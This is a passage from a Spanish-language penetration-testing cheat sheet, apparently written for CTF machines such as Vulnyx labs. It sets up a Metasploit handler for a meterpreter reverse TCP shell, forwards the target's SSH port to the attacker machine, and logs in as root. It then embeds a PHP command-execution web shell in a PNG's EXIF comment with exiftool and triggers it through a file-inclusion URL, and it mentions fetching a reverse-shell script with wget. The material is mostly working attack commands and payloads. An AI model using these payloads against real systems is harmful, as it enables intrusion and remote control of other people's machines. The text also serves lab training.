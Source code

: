 use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set LHOST=IP-KALI
set LPORT=PORT-shel.elf
run

Ahora reenvíemos nuestro puerto 22 a nuestra máquina atacante usando:

portfwd add -l <LOCAL_PORT> -p <REMOTE_PORT> -r <REMOTE_IP>

portfwd add -l 101 -p 22 -r 127.0.0.1

-l para puerto local
-p para puerto remoto
-r host remoto

Ahora obtengamos un shell , para este caso usando ssh

me tiene que salir el siguiente mensaje:

[*] Forward TCP relay created: (local) :101 -> (remote) 127.0.0.1:22


ssh root@127.0.0.1 -p 101

escribimos la contraseña


-------------------------------------------------------------------------------

## 84.- Si tengo algún puerto que desconozco y ya sea udp o tcp, busco un exploit o una herramienta para auditarlo..

Ejemplo máquina call de vulnyx

-------------------------------------------------------------------------------

## 85.- Crear una web shell con una imagen .png

primero creamos una imagen en blanco.

convert -size 150x150 xc:white daniel.png 

luego cargamos la web shell cmd en la imagen daniel.png
exiftool -comment='<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' daniel.png

accedemos donde está la imagen

así es como se guarda la imagen en el servidor:

9551640368051400adf634.83527497.png

http://twitx.nyx/private.php?folder=upload&file=9551640368051400adf634.83527497.png&cmd=comando

ahora para acceder a la máquina podemos cargar un revshell rev.php


ejemplo:

con wget
